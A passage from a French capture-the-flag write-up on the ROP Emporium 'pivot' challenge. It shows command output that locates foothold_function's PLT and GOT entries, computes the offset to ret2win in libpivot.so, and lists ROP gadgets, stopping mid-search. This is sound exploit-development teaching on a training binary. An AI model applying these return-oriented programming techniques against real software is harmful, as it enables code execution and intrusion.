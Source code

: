 ~~~bash
root@kali:~/rop_emporium/pivot# objdump -D pivot | grep foot
0000000000400850 <foothold_function@plt>:
  400850:	ff 25 f2 17 20 00    	jmpq   *0x2017f2(%rip)        # 602048 <foothold_function>
  400aeb:	e8 60 fd ff ff       	callq  400850 <foothold_function@plt>
~~~

`0x400850`est représente l'adresse de la fonction dans la **PLT** et `0x602048` celle de la **GOT**. 
Nous pouvons ainsi l'appeler avec son adresse dans le **PLT**. 

### calcul de l'offset 
Étant donné que nous avons accès a la bibliothèque contenant la fonction `foothold`, nous pouvons en déterminer les offset : 

~~~bash
root@kali:~/rop_emporium/pivot# rabin2 -s libpivot.so | grep foot
057 0x00000970 0x00000970 GLOBAL   FUNC   24 foothold_function
root@kali:~/rop_emporium/pivot# rabin2 -s libpivot.so | grep ret2win
049 0x00000abe 0x00000abe GLOBAL   FUNC   26 ret2win
~~~

En soustrayant `0x970` a `0xABE` nous obtenons `0x14E`, c'est notre offset !!
### appel de ret2win 
Pour appeler la fonction, nous devons utiliser la dresse **GOT** de la fonction `foothold` et lui ajouter l'offset obtenus juste avant. 
Pour cela nous devons agir sur l'adresse et non plus sur la valeur contenue a cette adresse et enfin l'appeler avec `call` : 

~~~bash
root@kali:~/rop_emporium/pivot# ROPgadget --binary pivot  | grep "call" --color
0x0000000000400ac2 : call 0x400818
0x0000000000400b59 : call qword ptr [r12 + rbx*8]
0x0000000000400b5a : call qword ptr [rsp + rbx*8]
0x000000000040098e : call rax
0x0000000000400ca3 : call rsp
~~~

Ici, deux solutions s'offrent à nous, voyons voir quel registre nous pouvons additionner : 

~~~bash
root@kali:~/rop_emporium/pivot# ROPgadget --binary pivot  | grep "rsp" --color
0x0000000000400aff : add byte ptr [rax - 0x3d], bl ; xchg rax, rsp ; ret
0x00000000004007cb : add byte ptr [rax], al ; add rsp, 8 ; ret
0x00000000004007cd : add rsp, 8 ; ret
0x0000000000400b5a : call qword ptr [rsp + rbx*8]
0x0000000000400ca3 : call rsp
0x0000000000400989 : int1 ; push rbp ; mov rbp, rsp ; call rax
0x0000000000400988 : je 0x400981 ; push rbp ; mov rbp, rsp ; call rax
0x000000000040098b : mov rbp, rsp ; call rax
~~~

Pas `RSP`, voyons `RAX` : 

~~~bash
root@kali:~/rop_emporium/pivot# ROPgadget --binary pivot  | grep "rax" --color
0x0000000000400b7e : add byte ptr [rax], al ; ret
0x0000000000400afd : add byte ptr [rax], r8b ; pop rax ; ret
0x0000000000400b09 : add rax, rbp ; ret
0x00000000004008f2 : and byte ptr [rax], ah ; jmp rax
0x0000000000400967 : and byte ptr [rax], al ; add ebx, esi ; ret
~~~
